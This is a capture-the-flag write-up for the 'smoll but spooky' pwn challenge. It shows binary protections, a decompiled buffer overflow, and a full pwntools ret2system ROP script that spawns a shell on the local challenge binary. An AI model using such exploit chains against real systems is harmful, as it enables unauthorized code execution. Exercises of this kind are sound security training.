

# [Pwn] smoll but spooky

## 💡 Challenge Description



## 🔒 ELF Properties

```
┌──(rydzze㉿rydzze)-[/[Pwn] smoll but spooky]
└─$ file smoll-but-spooky
smoll-but-spooky: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b5a3b2575c451140ec967fd78cf8a60f2b7ef17f, not stripped

┌──(rydzze㉿rydzze)-[/[Pwn] smoll but spooky]
└─$ checksec --file=smoll-but-spooky
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols        No    0               1               smoll-but-spooky
```

## ✨ Walkthrough

Buffer overflow vulnerability.

```c
// using Ghidra

undefined8 main(void)
{
  undefined input [16];
  
  system("echo -n \"Is it that spooky?\"");
  __isoc99_scanf(&DAT_004006c5,input);
  printf("Welcome to Blackberry CTF 2025, %s!\n",input);
  return 0;
}
```

```
┌──(rydzze㉿rydzze)-[/[Pwn] smoll but spooky]
└─$ ./smoll-but-spooky
Is it that spooky?aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome to Blackberry CTF 2025, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Segmentation fault
```

64-bit ROP shellcode (*right?*) with stack alignment ... Payload is simple, we need to fill the buffer and then inject system("/bin/sh") to trigger the shellcode

## ⚙ Full Script

```py
from pwn import *
elf = context.binary = ELF('./smoll-but-spooky')

p = process('./smoll-but-spooky')
# p = remote("IP_ADDR", PORT)

offset = 0x18
ret_addr = p64(0x400479)                # ROPgadget --binary smoll-but-spooky | grep 'ret'
pop_rdi = p64(0x400683)                 # ROPgadget --binary smoll-but-spooky | grep 'pop rdi'
system = elf.sym["system"]
binsh = next(elf.search(b'/bin/sh'))

log.success(f"system_addr: {hex(system)}")
log.success(f"binsh_addr : {hex(binsh)}")

payload = flat(
    b'A' * offset,
    ret_addr, pop_rdi,
    binsh, system
)

p.sendlineafter(b"Is it that spooky?", payload)

p.interactive()
```

## 🛠 Exploit

```
┌──(rydzze㉿rydzze)-[/[Pwn] smoll but spooky]
└─$ python solve.py
[*] '/[Pwn] smoll but spooky/smoll-but-spooky'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Starting local process './smoll-but-spooky': pid 2202
[+] system_addr: 0x400490
[+] binsh_addr : 0x601048
[*] Switching to interactive mode
Welcome to Blackberry CTF 2025, AAAAAAAAAAAAAAAAAAAAAAAAy\x04@!
$ whoami
rydzze
```